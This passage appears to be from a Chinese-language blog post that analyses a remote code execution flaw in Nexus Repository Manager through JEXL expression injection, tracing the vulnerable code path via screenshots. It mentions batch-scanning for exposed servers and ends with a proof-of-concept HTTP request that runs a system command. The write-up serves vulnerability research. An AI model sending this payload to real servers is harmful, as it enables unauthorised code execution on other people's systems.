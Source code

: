 着重看一下 jexl 的处理过程：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGeYH4mRCThwafpMIh6mo5Nxld0mAhLzTiaecUsKubWFFgTSib9pgDSnRI8CMnAG623xya2KFtJRsUg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGeYH4mRCThwafpMIh6mo5N6BHRh7TGxGyzKc0S07W0KzvXQ3OWJBSU5iawyr9R4ewRNic5M6k7KkUw/640?wx_fmt=png)

注意到这里只是实例化了一个 JexlSelector 对象，而并没有调用 evaluate 来执行表达式，所以漏洞的触发点在其他的位置。

而真正的表达式执行点在 browseService.previewAssets 的处理过程中，这一点也是这个漏洞最为难找的一个点。

跟进 previewAssets 的实现，在 org.sonatype.nexus.repository.browse.internal.BrowseServiceImpl#previewAssets：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NvJESll6iamnblP9icicg5AoXgkQZd0Y3ekvj37RjsJzXojyATr415rkCg/640?wx_fmt=png)

在这里可以看到表达式最后会被当做参数形成 SQL 查询，最后由 OrientDb 执行：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NeYJicR3W64PicDptvcNtaqyIU7vGdKSIAmPgFHzHdMAxQxwCjqeuJLBw/640?wx_fmt=png)

但是 OrientDb 本身是没有 contentExpression 这个方法的，

也就是说明这个方法是用 Java 来实现的，找了一下，在

org.sonatype.nexus.repository.selector.internal.ContentExpressionFunction：  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NzuHYCibtyTMt5cXanTjygwOib1wgpwDpDOuVFvq7H3no3Tq2otZ8VhEA/640?wx_fmt=png)

在 checkJexlExpression 中：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NpPvcyhiaISHtLUAW5cu9fiaoCicg80PsftqIAh7z2rsYFdocLILkaJayg/640?wx_fmt=png)

调用了 selectorManage.evaluate 来执行 jexl 表达式：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NliasibM61DibPHnLUunwB3o62BX9nkrXYtkFkYChPSgxMIQlcH3I58GRw/640?wx_fmt=other)

0X04
----

利用脚本批量扫了一下，看到还是存在很多的。  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSGeYH4mRCThwafpMIh6mo5NoicEDm7pqOtaQ56q3x17fh8mKkJOWHicicrW8SWvpvuoOoBLPtSXrpaRw/640?wx_fmt=png)

POC

```
POST /service/extdirect HTTP/1.1<br style="max-width: 100%;word-wrap: break-word !important;box-sizing: border-box !important;overflow-wrap: break-word !important;">Host:127.0.0.1:8081<br style="max-width: 100%;word-wrap: break-word !important;box-sizing: border-box !important;overflow-wrap: break-word !important;">User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0<br style="max-width: 100%;word-wrap: break-word !important;box-sizing: border-box !important;overflow-wrap: break-word !important;">Content-Type: application/json<br style="max-width: 100%;word-wrap: break-word !important;box-sizing: border-box !important;overflow-wrap: break-word !important;">Content-Length: 308<br style="max-width: 100%;word-wrap: break-word !important;box-sizing: border-box !important;overflow-wrap: break-word !important;">Connection: close<br style="max-width: 100%;word-wrap: break-word !important;box-sizing: border-box !important;overflow-wrap: break-word !important;"><br style="max-width: 100%;word-wrap: break-word !important;box-sizing: border-box !important;overflow-wrap: break-word !important;">{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":25,"filter":[{"property":"repositoryName","value":"*"},{"property":"expression","value":"''.class.forName('java.lang.Runtime').getRuntime().exec('calc.exe')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":4}<br style="max-width: 100%;word-wrap: break-word !important;box-sizing: border-box !important;overflow-wrap: break-word !important;">
```
